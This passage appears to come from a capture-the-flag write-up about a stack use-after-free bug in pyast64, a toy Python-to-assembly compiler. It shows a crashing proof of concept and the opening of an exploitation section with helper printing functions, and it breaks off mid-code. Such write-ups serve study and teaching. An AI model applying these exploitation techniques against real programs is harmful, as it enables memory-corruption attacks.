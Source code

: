 After some experimenting, I quickly realized where the bug was.
You could return an array perfectly fine from a function where it was allocated.
This is of course a huge issue, because the moment the function returns, the stack frame is deallocated.
Therefore, the returned array points to "freed" memory and we have a stack use-after-free!

I quickly made a proof of concept that would at least crash:

```python
def test():
    a = array(1)
    a[0] = 0x41
    return a

def test2(a):
    b = a[0]
    newline = 0xa
    putc(b)
    putc(newline)

def main():
    a = test()
    test2(a)
```

This yielded the following output [^2]:

```
> python3 pyast64.py -o example.elf example.py && ./example.elf
assembly:
[1]    175041 trace trap (core dumped)  ./example.elf
```

## Exploiting a stack UAF

While I had my fair share of heap UAF exploitation done before, I had never exploited a stack UAF.
The first thing I did, was adding a bunch of helper functions to pretty print arrays, some shamelessly stolen [from the original repo](https://github.com/benhoyt/pyast64/blob/master/arrays.p64)[^3]:

```python
def fetch(array, ofs):
    return array[ofs]

def store(array, ofs, value):
    array[ofs] = value

def print_num(n):
    if n == 0:
        putc(48)  # '0'
        return
    if n < 0:
        putc(45)  # '-' sign
        n = -n
    div = n // 10
    if div != 0:
        print_num(div)
    putc(48 + n % 10)

def print_hex_num(n):
    if n == 0:
        putc(48)  # '0'
        return
    if n < 0:
        putc(45)  # '-' sign
        n = -n
    div = n // 16
    if div != 0:
```

[^1]: This was unchanged from the original project on GitHub.
[^2]: Note: I changed the provided python file to make it easier to debug. For example I save the assembly output in a temporary file.
[^3]: The `store` / `fetch` functions might seem a bit weird. I had some issues (because I was wrongly using Python 3.8) and so I just copied the code from GitHub. All `store` / `fetch` should be replaceable with normal array indexing now.